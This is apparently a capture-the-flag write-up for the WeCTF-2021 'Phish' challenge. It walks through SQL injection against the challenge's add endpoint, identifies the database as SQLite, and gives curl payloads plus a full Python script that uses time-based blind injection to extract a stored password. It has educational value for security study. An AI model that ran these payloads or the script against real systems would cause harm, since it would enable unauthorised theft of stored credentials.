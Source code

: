 # WeCTF-2021

<h1>Phish</h1>

From the start testing - ```curl http://phish.sf.ctf.so/add --data"username=test&password=test2'``` will returns an SQL error which means it's vulnerible to SQLi.

Testing ```curl http://phish.sf.ctf.so/add --data "username=' UNION SELECT 1,2 #&password=test2"``` returns ```unrecognized token: "#"```

The database is not MySQL so let's run an SQL query to try to find what DB it is.

With MySQL the page should load in 5 seconds.. `' UNION SELECT 1,IF(LENGTH(password))>0,SLEEP(5),'true') FROM user` -- Instead it returns `no such function: IF`

This error is unique to SQLite. So now we know we need to convert to a SQLite query.

This query should will load in 4-5 seconds if password length is > 0. `curl http://phish.sf.ctf.so/add --data "username=shou&password=', '') UNION SELECT 1,CASE WHEN LENGTH(password)>0 THEN randomblob(500000000) END FROM user WHERE username = 'shou'--"`

It's a successful query and loads in  ~4 seconds. So I wrote a program (included below) to extract all 64 characters of the flag. 

```
import requests

FLAG = []
INJECTION_STRING = "', '') UNION SELECT 1,CASE WHEN unicode(substr(password, {}, {})){}{} THEN randomblob(500000000) END FROM user WHERE username = 'shou'--"

def guess_exact(offset, starting_ascii):
    global FLAG
    global INJECTION_STRING
    for current_ascii in range(starting_ascii-10, starting_ascii):
        print(f'Testing {chr(current_ascii)}')
        POST_DATA = {"password": INJECTION_STRING.format(offset,offset,'=',current_ascii), "username": "shou"}
        load_time = requests.post("http://phish.sf.ctf.so/add", data=POST_DATA).elapsed.total_seconds()
        print(f'Load time: {load_time}')
        if(load_time > 3):
            FLAG.insert(offset, chr(current_ascii))
            break
            
def guess_letter_range(offset):
        global INJECTION_STRING
        for current_ascii in range(30,131):
            if current_ascii % 10 == 0:
                POST_DATA = {"password": INJECTION_STRING.format(offset,offset,'<',current_ascii), "username": "shou"}
                print(f'Testing letters between {chr(current_ascii-10)}-{chr(current_ascii)}')
                load_time = requests.post("http://phish.sf.ctf.so/add", data=POST_DATA).elapsed.total_seconds()
                print(f'Load time: {load_time}')
                if load_time > 3:
                    print(f'Searching exact letter between {chr(current_ascii-10)}-{chr(current_ascii)}')
                    guess_exact(offset, current_ascii)
                    break

for offset in range(1, 64): # 64 is the size of the flag - based from manual testing 
    guess_letter_range(offset)
    print("".join(FLAG))
```
